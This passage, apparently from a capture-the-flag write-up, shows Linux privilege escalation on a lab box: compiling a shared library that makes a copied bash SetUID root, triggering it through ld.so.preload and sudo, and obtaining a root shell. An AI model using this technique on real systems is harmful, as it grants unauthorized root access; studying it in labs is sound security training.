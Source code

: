 This will be the shared library, and on being loaded, it will change the `bash` executable I just copied to be owned by root and have the SetUID bit on. Compiling this throws a warning, but it makes the file:

```
activemq@broker:/tmp$ gcc -fPIC -shared -ldl -o /tmp/pwn.so pwn.c
...[snip errors]...
pwn.c: In function ‘dropshell’:
pwn.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
   7 |     chmod("/tmp/rootshell", 04755);
     |     ^~~~~
activemq@broker:/tmp$ ls
...[snip errors]...
pwn.c  pwn.so  rootshell

```

#### Run SetUID Binary

Now I just need to run something that starts as root. `sudo -l` will work nicely:

```
activemq@broker:/tmp$ sudo -l
ERROR: ld.so: object '2023/11/08' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '21' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
...[snip]...
ERROR: ld.so: object '1339"' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx

```

It fails to load a bunch of shared objects, but if it loaded `pwn.so`, then `/tmp/rootshell` should be SetUID and SetGID now. It is:

```
activemq@broker:/tmp$ ls -l /tmp/rootshell
-rwsr-xr-x 1 root root 1396520 Nov  8 21:07 /tmp/rootshell

```

Running it with `-p` returns a root shell:

```
activemq@broker:/tmp$ /tmp/rootshell -p
rootshell-5.1# id
uid=1000(activemq) gid=1000(activemq) euid=0(root) groups=1000(activemq)

```





